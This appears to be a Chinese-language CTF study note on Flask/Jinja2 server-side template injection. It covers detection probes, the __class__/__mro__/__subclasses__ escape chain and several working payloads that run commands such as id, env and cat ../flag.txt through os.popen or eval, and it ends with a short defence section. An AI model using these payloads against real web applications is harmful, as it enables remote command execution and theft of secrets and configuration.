

# 模板注入



## Flask SSTI 笔记（修正版）

## 1. 漏洞原理

* **SSTI（服务端模板注入）**：当用户输入被直接拼接到模板中渲染时，攻击者可利用模板语法执行任意代码。
* Flask 默认使用 **Jinja2** 模板引擎，若使用不当，容易产生 SSTI。

***

## 2. 漏洞发现与测试

* **基础检测**
 * `{{7*7}}` → 返回 `49`，存在 SSTI。
* **绕过 **`**{{}}**`** 过滤**
 * `{{a}}`
 * `{{7*'7'}}` → `7777777`
* **常用对象**
 * `{{ config }}` → Flask 配置（包含 SECRET\_KEY 等）
 * `{{ request }}` → HTTP 请求对象
 * `{{ session }}` → 会话信息
* * `{{ }}`通常用于输出变量或表达式的结果
 * `` 用于执行控制逻辑，条件判断，循环，宏定义等

***

## 3. 攻击思路：对象链逃逸

核心思路：**从可控对象 → 类信息 → 父类链 → 子类 → 可执行命令的类/模块**

1. 起点对象：`""` / `[]` / `()`
2. 获取类：`.__class__`
3. 获取继承关系：`.__mro__`
4. 获取父类：`__base__`, `__mro__[-1]`推荐后者，健壮性更高，前者多重继承场景有问题
5. 获取子类：`.__subclasses__()`
6. 寻找命令执行接口：`os.system` / `subprocess.Popen`
7. 常用跳板类（只用写最后一层，如`catch_warnings` ）
 * `warnings.catch_warnings` 先看在不在214位置
 * `jinja2.environment.TemplateModule`
 * `jinja2.environment.Environment`

***

## 4. 常用 Payload

`__mro__[-1]` 等价于`__base__`

`${self.module.cache.util.os.popen("cat ../flag.txt").read()}` 有时候这样也可以

### ① 利用 `os` 模块

***

* `{{ "".__class__.__mro__[-1].__subclasses__()[索引].__init__.__globals__['os'].popen('ls').read() }}`

索引需要先枚举：

`{{ "".__class__.__mro__[-1].__subclasses__() }}`

`${["%d -> %s" % (i, x) for i, x in enumerate("".__class__.__mro__[-1].__subclasses__())]}`**找索引更快**

`**catch_warnings.__init__.__globals__**`** 里 不一定有 **`**os**`

`catch_warnings` 是 Python 内置的 warning 机制实现类，它的 `__init__` 的全局变量表 `__globals__` 里通常只包含：

* `**__name__**`
* `**__doc__**`
* `**__package__**`
* `**__loader__**`
* `**__spec__**`
* `**__builtins__**`
* **（可能还有 **`**sys**`**，但没有保证有 os）**

\*\* 既然 必定有 **`**__builtins__**`**，那就通过 **`**__builtins__**`** 去引入模块： → ② 动态导入（绕过环境限制）\*\*

`${"".__class__.__mro__[-1].__subclasses__()[232].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}`\*\* \*\*

### ② 动态导入（绕过环境限制）

`{{ [].__class__.__base__.__subclasses__()[索引].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }}`

### ③ 利用 `eval`

`{{ [].__class__.__base__.__subclasses__()[索引].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()") }}`

### ③ 读取环境变量

`?name={{''.__class__.__base__.__subclasses__()[索引].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("env").read()')}}`

### ④ payload

`     {{ b['eval']('__import__("os").popen("env").read()') }}     `

`  {{ c.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("dir").read()') }} ` 修改绿色部分即可

`~~ {{ warnings.catch_warnings.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("dir").read()') }} ~~这个payload有问题，因为沙箱机制，不能假设warnings已经在模块环境中存在并可直接使用`

### ⑤`popen`和`system`对比总结

| 特性 | os.popen("cmd").read() | os.system("cmd").read() |
| --- | --- | --- |
| 执行方式 | 打开一个管道来执行命令 | 在子shell中执行命令 |
| 命令输出去向 | 作为字符串被 `.read()` 捕获 | 直接打印到服务器的标准输出（日志等） |
| 函数返回值 | `popen()`返回管道对象，`.read()`返回字符串 | `system()`返回整数（退出码） |
| Payload结果 | **成功**，在页面回显命令结果 | **失败**，引发 `AttributeError`，无回显 |
| 适用场景 | 需要**获取并处理**命令输出时使用 | 只需要执行命令，不关心其输出，只关心其是否成功时使用 |

***

## 5. 修复与防御

* **禁用拼接**：不要使用`render_template_string(user_input)`
* **严格转义**：使用 `jinja2.escape(user_input)`。
* **白名单传递**：只把允许的变量传入模板，例如：`render_template('index.html', safe_var=user_input)`
* **启用沙箱**：若确实需要渲染用户输入，使用 `jinja2.SandboxedEnvironment`。
* **升级依赖**：保持 Flask & Jinja2 最新版本。

***

## 6. 快速记忆口诀

```plain
检测： {{7*7}} → 49
对象链：.__class__ → .__mro__ → .__subclasses__()
命令执行：找到 os / subprocess
修复：禁拼接、用白名单、沙箱加固
```

## 7. Flask SSTI 索引枚举脚本

### 1. 枚举所有子类名称

（找到哪个索引能拿到 `os._wrap_close` 或 `subprocess.Popen`）

`{{ ''.__class__.__mro__[-1].__subclasses__() }}`

👉 页面会输出一个很长的类列表（可能需要多次分页看）。

***

### 2. 带索引逐个输出

（方便直接看到类名和索引对应关系）

```plain

    {{ i }} : {{ ''.__class__.__mro__[-1].__subclasses__()[i] }}

```

👉 修改 `200` 为你想枚举的范围。

***

### 3. 找到 `os` 模块

找到类似 `` 或 `` 的类后，就能用对应索引去执行命令。

***

### 4. 快速命令执行模板

找到索引 `N` 后，直接执行命令：

`{{ ''.__class__.__mro__[-1].__subclasses__()[N].__init__.__globals__['os'].popen('id').read() }}`

***

📌 **实战技巧**

* 有时候页面不回显太长的内容，可以分段输出，比如：`{{ i }}:{{ ''.__class__.__mro__[-1].__subclasses__()[i] }}`
* `{{ i }}:{{ ''.__class__.__mro__[-1].__subclasses__()[i] }}`
* 如果 `os` 被限制，可以用：`{{ ''.__class__.__mro__[-1].__subclasses__()[N].__init__.__globals__['__builtins__']['__import__']('os').popen('ls').read() }}`

***

### 5. 快CTF 中常见 SSTI 模板分类流程

#### 初始测试

* \*\*测试 \*\*`**${7*7}**`
 * 如果返回 `49` → 说明模板可能是 **Smarty** / **Mako** 类。

#### Smarty 判断

* 在 `${7*7}` 能计算的情况下：
 * 试 `a{*comment*}b`（Smarty 特有注释语法）
 * 试 `${"".join("ab")}`（Smarty 能执行 join）
 * 如果生效 → **Smarty**

#### Jinja2 / Twig / Mako 判断

* \*\*测试 \*\*`**{{7*7}}**`
 * 如果返回 `49` → 存在注入，说明可能是 **Jinja2** / **Twig** / **Mako**
 * 如果不返回 → **Not vulnerable**

#### 区分不同模板

* **Mako**：语法 `${...}`，常出现在 Python 项目中。
* **Jinja2**：常见于 Flask，支持 `{{config}}`、过滤器 `{{7|abs}}`。
* **Twig**：常见于 PHP（Symfony），语法和 Jinja2 类似，但函数名不同（如 `{{ dump() }}`）。

#### **简化记忆：**

`${7*7}` → `Smarty/Mako`

`{{7*7}}` → `Jinja2/Twig`

`都不行` → `无漏洞`
